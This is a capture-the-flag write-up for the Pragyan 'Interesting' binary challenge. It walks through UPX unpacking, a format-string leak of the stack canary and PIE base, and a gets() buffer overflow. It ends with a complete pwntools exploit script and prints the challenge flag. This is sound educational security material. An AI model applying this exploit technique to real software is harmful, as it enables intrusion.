 ```yaml
---
title: Interesting
category: Binary Exploitation
tags: 
completedDuringEvent: true
submitted: true
flag: p_ctf{!_am_v3ry_!nt3r3st1ng_!nd33d}
draft: true
---
```

First, let's check the binary.

```sh
$ file challenge/chal
challenge/chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), statically linked, no section header

$ strings challenge/chal
...
PROT_EXEC|PROT_WRITE failed.
_j<X
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 4.24 Copyright (C) 1996-2024 the UPX Team. All Rights Reserved. $
_RPWQM)
j"AZR^j
...
UPX!
UPX!
```

After checking the strings, we can see that the binary is packed with **UPX**. Let's unpack the binary.

```pwsh
$ .\upx.exe -d chal -o chal.unpack
```

Now let's check the unpacked binary protections.

```sh
$ file challenge/chal.unpack 
challenge/chal.unpack: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d7d336a6fb868f08d310d402fd06fe7f7ce2a22c, for GNU/Linux 3.2.0, not stripped
$ pwn checksec challenge/chal.unpack
[*] '/home/ztz/projects/ctf/writeups/2025/pragyan/pwn/interesting/challenge/chal.unpack'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

The binary is not stripped, and it has all the protections enabled. Where the binary is `Canary` enabled, `NX` enabled, `PIE` enabled, and `Full RELRO` enabled. Where `Canary` is enabled, we need to leak the canary to exploit the buffer overflow vulnerability. `PIE` is enabled, so we need to leak the address to calculate the base address of the binary. Let's check the main function.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts(
    "########  ########     ###     ######   ##    ##    ###    ##    ## \n"
    "##     ## ##     ##   ## ##   ##    ##   ##  ##    ## ##   ###   ## \n"
    "##     ## ##     ##  ##   ##  ##          ####    ##   ##  ####  ## \n"
    "########  ########  ##     ## ##   ####    ##    ##     ## ## ## ## \n"
    "##        ##   ##   ######### ##    ##     ##    ######### ##  #### \n"
    "##        ##    ##  ##     ## ##    ##     ##    ##     ## ##   ### \n"
    "##        ##     ## ##     ##  ######      ##    ##     ## ##    ## \n"
    "\n");
  puts("Hey there! Welcome to the challenge");
  puts("The rules are simple! Say something interesting, and I will give you the flag.");
  if ( (unsigned int)fun() == 7 )
    puts("Nah! You are boring");
  return 0;
}
```

The main function calls the `fun` function.

```c
__int64 fun()
{
  __int64 v1; // [rsp+0h] [rbp-128h] BYREF
  char s[248]; // [rsp+20h] [rbp-108h] BYREF
  unsigned __int64 v3; // [rsp+118h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  fgets(s, 230, stdin);
  __printf_chk(1LL, "You said: ");
  __printf_chk(1LL, s);                         // Format String
  puts("Do you really think that's interesting?");
  gets(&v1);                                    // Buffer Overflow
  return 7LL;
}
```

The `fun` function has a format string vulnerability and a buffer overflow vulnerability. The format string vulnerability is in the `printf` function, and the buffer overflow vulnerability is in the `gets` function. Let's check the `interesting` function.

```c
unsigned __int64 interesting()
{
  FILE *v0; // rax
  FILE *v1; // rbp
  char v3[264]; // [rsp+0h] [rbp-128h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-20h]

  v4 = __readfsqword(0x28u);
  puts("Yeah, that's interesting");
  v0 = fopen("flag.txt", "r");
  if ( !v0 )
  {
    perror("Error opening file, Contact Admin");
    exit(1);
  }
  v1 = v0;
  if ( fgets(v3, 256, v0) )
    __printf_chk(1LL, "%s", v3);
  fclose(v1);
  return v4 - __readfsqword(0x28u);
}
```

The `interesting` function opens the `flag.txt` file and prints the content of the file. The `interesting` function is the function that we need to return to get the flag.

Because the binary is `Canary` enabled, we need to leak the canary to exploit the buffer overflow vulnerability. Let's check the format string vulnerability. We can use `gdb` to set a breakpoint after `gets` function and send the format string payload to leak the canary.

![alt text](image.png)

`%p.` is used to leak the canary. We can see that the canary is leaked at index 43.

![alt text](image-1.png)

After leaking the canary, we can use the `canary` command to print the canary. So the canary is `0xfbe0nn390be78400`. Now let's check the canary in format string payload.

![alt text](image-2.png)

The canary is at index 43. Now let's check the address leak. We can use the format string vulnerability to leak the address of the main function.

Disassemble address from the leak `0x555555555180` we can see that the address of the main function.

![alt text](image-3.png)

Because `PIE` is enabled, and we found the address of the main function, we can calculate the base address of the binary. `0x555555555180 - 0x1180` is the base address of the binary.

![alt text](image-4.png)

So the canaries is at index 43 and the main function is at index 47 at address leak.

Now let's write the exploit script.

```c
__int64 v1; // [rsp+0h] [rbp-128h] BYREF
char s[248]; // [rsp+20h] [rbp-108h] BYREF
unsigned __int64 v3; // [rsp+118h] [rbp-10h]
```

`rbp-128h` is the buffer for the gets function, and `rbp-108h` is the buffer for the fgets function. So `0x128 - 0x10` is the offset to the canary.

![alt text](image-5.png)

So the offset to the canary is `0x118`. Now let's write the exploit script.

```py
from pwn import *

binary = './challenge/chal.unpack'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('interesting.ctf.prgy.in', 1337, ssl=True)

r.recvuntil(b"give you the flag.\n")
r.sendline(b"%p." * 50)
leaks = r.recvline().decode().split(".")

pie_leak = int(leaks[47], 16) # Main function address from pie
e.address = pie_leak - 0x1180
log.success(f"Binary Base Address: {hex(e.address)}")

interesting_addr = e.symbols["interesting"] + 8 # +8, idk why too, local works without it
log.success(f"Interesting() Address: {hex(interesting_addr)}")

canary = int(leaks[43], 16)
log.success(f"Canary: {hex(canary)}")

payload = cyclic(280)
payload += p64(canary)            # Canary
payload += cyclic(8)              # RBP
payload += p64(interesting_addr)  # Return to interesting() function

r.recvuntil(b"Do you really think that's interesting?\n")
r.sendline(payload)

r.interactive()
```
